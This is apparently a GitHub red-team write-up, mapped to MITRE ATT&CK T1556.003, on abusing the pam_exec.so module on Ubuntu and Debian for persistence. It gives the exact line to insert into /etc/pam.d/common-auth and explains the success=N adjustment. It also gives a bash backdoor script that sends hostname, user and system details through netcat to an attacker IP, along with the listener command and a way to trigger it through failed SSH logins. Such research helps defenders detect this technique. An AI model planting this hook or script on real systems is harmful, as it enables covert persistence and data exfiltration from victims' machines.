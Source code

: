 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04 and maintain persistence. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. Unlike RPM-based systems where the /etc/pam.d/sshd file handles SSH authentication directly, Debian-based systems separate the authentication logic into the /etc/pam.d/common-auth file, which is included by the sshd PAM configuration.
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** This technique works on all debian systems.
### Implementation:  

#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario.   
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.    
**Before:**   

![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   

You can observe the modified success value to 3 in pam_unix.so line as shown.  

![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
Once you make any changes to PAM configuration you have to restart ssh. 
```sudo systemctl restart ssh```  


#### Step2: Drop Backdoor script 
At victim side.   
**Backdoor script:** 
```
#!/bin/bash 

REMOTE_IP="<attackerIP>" 
REMOTE_PORT="4444" 
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
The ssh failures trigger the backdoor script /tmp/s.sh and sends the information back to attacker as shown below. Finally the output looks like below from attacker machine.  

![450890823-89aadc9b-46ca-4925-8996-c6305434d260](https://github.com/user-attachments/assets/4a75f2ed-9450-4e07-87aa-d0ecb26511f4)  
